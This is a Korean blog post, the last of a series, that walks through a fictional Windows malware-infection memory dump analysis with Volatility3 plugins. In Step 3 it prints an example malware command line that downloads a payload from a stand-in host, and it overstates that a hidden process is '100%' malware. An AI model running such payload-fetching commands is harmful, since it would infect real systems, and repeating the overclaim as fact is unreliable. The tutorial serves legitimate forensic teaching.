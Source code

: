 ```yaml
---
layout: post
title:  "실전! 악성코드 감염 메모리 분석 (5/5)"
date:   2025-07-12 10:00:00 +0900
categories: forensics volatility
---
```


## 들어가며

대망의 마지막 5부입니다. 지난 4부까지 우리는 Volatility3의 주요 플러그인 사용법을 익혔습니다. 이제는 실전입니다. 이번 포스트에서는 가상의 악성코드 감염 시나리오를 통해, 지금까지 배운 모든 지식과 기술을 종합하여 실제 침해사고 분석처럼 메모리 덤프를 분석하는 전 과정을 함께 밟아보겠습니다.

## 시나리오

**상황:** 사용자로부터 "PC가 평소보다 매우 느려지고, 이상한 광고창이 계속 뜬다"는 신고가 접수되었습니다. 의심스러운 정황에 따라 즉시 해당 PC의 메모리를 덤프하여 `suspicious.mem` 파일을 확보했습니다.

**임무:** 메모리 덤프 분석을 통해 악성코드의 존재 여부를 확인하고, 감염 경로와 행위를 파악하라.

## 분석 절차 (Step-by-Step)

### Step 1: 기본 정보 확인

가장 먼저, 덤프 파일의 기본적인 시스템 정보를 확인하여 분석의 기준점을 잡습니다.

```bash
vol.py -f suspicious.mem windows.info.Info
```

- **확인 사항:** 운영체제 버전, 덤프 시간 등.
- **예상 결과:** Windows 10 x64, 덤프 시간은 신고 접수 시간과 유사. Volatility3가 적절한 심볼을 자동으로 찾아 적용했는지 확인합니다.

### Step 2: 의심스러운 프로세스 탐색

이제 어떤 프로세스들이 실행 중인지 확인하여 악성 행위의 주체를 찾아야 합니다. `pslist`, `pstree`, `psscan`을 종합적으로 사용합니다.

```bash
vol.py -f suspicious.mem windows.pslist.PsList
vol.py -f suspicious.mem windows.pstree.PsTree
vol.py -f suspicious.mem windows.psscan.PsScan
```

- **분석 포인트:**
    1.  **이상한 이름의 프로세스:** `cftmon.exe`를 위장한 `ctfmon.exe`나 `svch0st.exe` 같은 오타, 또는 `1a2b3c.exe` 처럼 의미 없는 이름의 프로세스를 찾습니다.
    2.  **비정상적인 부모-자식 관계:** `pstree`를 통해 `explorer.exe`나 `services.exe`가 아닌, `winword.exe`나 `powershell.exe` 같은 프로세스가 알 수 없는 자식 프로세스를 실행시킨 경우를 찾습니다.
    3.  **숨겨진 프로세스:** `pslist`에는 없지만 `psscan`에는 존재하는 프로세스를 찾습니다. 이것이 있다면 100% 악성코드입니다.

- **가상 발견:** `pstree` 분석 결과, `powershell.exe` (PID 3124)가 `evil.exe` (PID 4567)라는 의심스러운 이름의 프로세스를 실행시킨 것을 발견했다고 가정합시다.

### Step 3: 프로세스 상세 분석

`evil.exe` (PID 4567)를 집중적으로 파헤쳐 봅니다.

```bash
# evil.exe의 실행 인자 확인
vol.py -f suspicious.mem windows.cmdline.CmdLine --pid 4567

# evil.exe가 로드한 DLL 목록 확인
vol.py -f suspicious.mem windows.dlllist.DllList --pid 4567
```

- **분석 포인트:**
    - `cmdline` 결과, `evil.exe -c http://malware.com/payload.dat` 와 같이 특정 서버 주소가 인자로 사용되었는지 확인합니다.
    - `dlllist` 결과, `ws2_32.dll`, `wininet.dll` 등 네트워크 관련 DLL이 로드되었다면 외부 통신을 시도했을 가능성이 높습니다.

### Step 4: 네트워크 연결 확인

`evil.exe`가 실제로 외부와 통신했는지 `netscan`으로 확인합니다.

```bash
vol.py -f suspicious.mem windows.netscan.NetScan
```

- **분석 포인트:**
    - `netscan` 결과에서 `Owner`가 `evil.exe`이거나 `PID`가 4567인 연결을 찾습니다.
    - **가상 발견:** `evil.exe`가 `123.123.123.123:8080` 이라는 의심스러운 IP 주소와 `ESTABLISHED` 상태로 연결된 것을 발견했습니다. 이 IP는 알려진 악성 C&C 서버일 수 있습니다.

### Step 5: 지속성(Persistence) 확인

악성코드가 시스템 재부팅 후에도 살아남기 위해 사용한 방법을 추적합니다. 주로 레지스트리 `Run` 키를 확인합니다.

```bash
# 1. 레지스트리 하이브 목록과 주소 확인
vol.py -f suspicious.mem windows.registry.hivelist.HiveList

# 2. SOFTWARE 하이브의 주소를 확인(예: 0xfffff12345678900)하고 Run 키 값 출력
vol.py -f suspicious.mem --offset 0xfffff12345678900 windows.registry.printkey.PrintKey --key "Microsoft\Windows\CurrentVersion\Run"
```

- **분석 포인트:**
    - `Run` 키에 `C:\Users\victim\AppData\Local\Temp\evil.exe` 와 같이 의심스러운 경로의 파일이 등록되어 있는지 확인합니다.

### Step 6: 악성 파일 추출 (덤프)

분석의 마지막 단계로, 의심스러운 프로세스(`evil.exe`)를 메모리에서 직접 추출하여 정적 분석(예: VirusTotal, IDA Pro)에 활용할 수 있습니다.

```bash
# 먼저 evil.exe의 메모리 맵을 확인
vol.py -f suspicious.mem windows.memmap.Memmap --pid 4567

# 프로세스를 덤프
vol.py -f suspicious.mem windows.dumpfiles.DumpFiles --pid 4567
```

- **결과:** 현재 디렉터리에 `pid.4567.dmp` 와 같은 파일이 생성됩니다. 이 파일의 해시 값을 계산하여 VirusTotal에 조회하거나, 악성코드 분석가에게 전달하여 심층 분석을 의뢰할 수 있습니다.

## 결론 및 시리즈를 마치며

위와 같은 절차를 통해 우리는 메모리 덤프만으로 `evil.exe`라는 악성 프로세스를 식별하고, C&C 서버 통신 사실과 레지스트리를 통한 지속성 유지 방법까지 파악할 수 있었습니다.

지난 5주간의 시리즈를 통해 메모리 포렌식의 기본 개념부터 Volatility3를 활용한 실전 분석까지 함께 달려왔습니다. 메모리 포렌식은 보이지 않는 위협을 찾아내는 매력적이고 강력한 기술입니다. 이 시리즈가 여러분의 기술적 성장에 작은 디딤돌이 되었기를 바랍니다. 꾸준한 연습과 학습을 통해 최고의 디지털 포렌식 전문가로 거듭나시길 응원합니다. 감사합니다!
